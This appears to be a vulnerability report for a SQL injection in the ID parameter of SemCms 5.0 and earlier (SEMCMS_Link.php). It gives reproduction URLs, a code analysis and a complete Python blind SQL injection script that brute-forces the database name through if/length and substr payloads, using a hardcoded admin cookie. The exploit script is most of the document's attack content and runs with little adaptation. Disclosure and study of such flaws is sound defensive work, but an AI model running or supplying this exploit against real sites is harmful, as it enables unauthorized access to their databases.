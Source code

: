 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Link.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the ID parameter in the SEMCMS_Link.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background.There is an SQL injection vulnerability in the ID parameter. Construct URL links. http://localhost:83/admin/SEMCMS_Link.php?type=edit&ID=1
It was found that when ID=1, there is a corresponding content ~

![image](https://github.com/user-attachments/assets/af84336d-ed4d-4244-8a49-83061a20b2ea)

When ID=1-1, there is no corresponding content:

![image](https://github.com/user-attachments/assets/c8813265-cbc2-4087-88d6-d8c2f0015aaa)

Determine the length of the database:

![image](https://github.com/user-attachments/assets/e8e98be9-1c5f-41cc-b0ad-36ae9d95607e)
![image](https://github.com/user-attachments/assets/9a8b1cf3-dfc0-4416-b83d-0e1a852bb8d5)

The normal echo indicates that the length of the database name is 8. Next, determine what the specific value of the database name is?

![image](https://github.com/user-attachments/assets/119820f0-ded4-4335-8f66-29354f73c695)

Finally, the database username is obtained as semcms50, and the yakit data packet:

# Code Analysis
Line 32 of `SEMCMS_Link.php`

![image](https://github.com/user-attachments/assets/63d5b5ca-6cac-4ee0-8f51-0b2a9bbc19bf)

The ID parameters were directly concatenated into the SQL statement, thereby causing an SQL injection vulnerability

# Vulnerability exploitation script

```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie

# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,1)'
        resp = send_request(base_url,header).text
        if 'semcms' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",1,999)'
            resp = send_request(base_url, header).text
            if 'semcms' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Link.php?type=edit&ID="
    
    db_len = 0

    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    

```
